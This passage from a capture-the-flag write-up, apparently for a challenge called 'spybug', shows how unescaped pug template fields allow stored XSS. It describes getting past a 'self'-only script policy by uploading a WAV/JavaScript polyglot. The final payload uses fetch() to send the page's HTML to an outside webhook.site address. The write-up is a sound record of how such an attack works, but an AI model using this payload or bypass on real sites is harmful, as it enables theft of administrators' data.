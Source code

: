 ```pug
			| &nbsp;Agents
		if agents.length > 0
			table.w-100
				thead
					tr
					th ID
					th Hostname
					th Platform
					th Arch
				tbody
					each agent in agents
						tr
							td= agent.identifier
							td !{agent.hostname}
							td !{agent.platform}
							td !{agent.arch}
		else
			h2 No agents
```

The information `agent.hostname`, `agent.platform` and `agent.arch` is reflected and not sanitized by the application.
We can confirm this by looking at how the variables are included in the template.
In pug, the `!{}` expression disables sanitization.

This is a vector for a reflected XSS attack.
There are limiting factors, the application uses the following CSP:

```js
script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';
```

This means that the browser will only execute scripts, if they are served from the domain itself.


Anything else will be blocked by the CSP, even if the application is vulnerable to XSS.

This means that we need to place a file on the server running the application, and have that file accessible to inlude as a `src` to our XSS.

##### Crafting a payload.

**The `spybug` uploads recordings.**

These files have to be listened to by the administrator, so they have to be accessible to download.

Going by this logic, we can craft a `.wav` file that acts as a valid audio file and contains a valid Javascript payload.
This is known as a [Polyglot](https://en.wikipedia.org/wiki/Polyglot_(computing)).
It means that our file is valid for both targeted formats, `.wav` and `.js`.

After some testing locally, the final `.wav` file is the following:
```javascript
RIFF/*
WAVEfmt*/="";fetch("https://webhook.site/11a96b58-3fb0-49b3-a475-e1913d3d2cd8/?body="+btoa(encodeURIComponent(document.body.innerHTML)), {mode: "no-cors",});
```
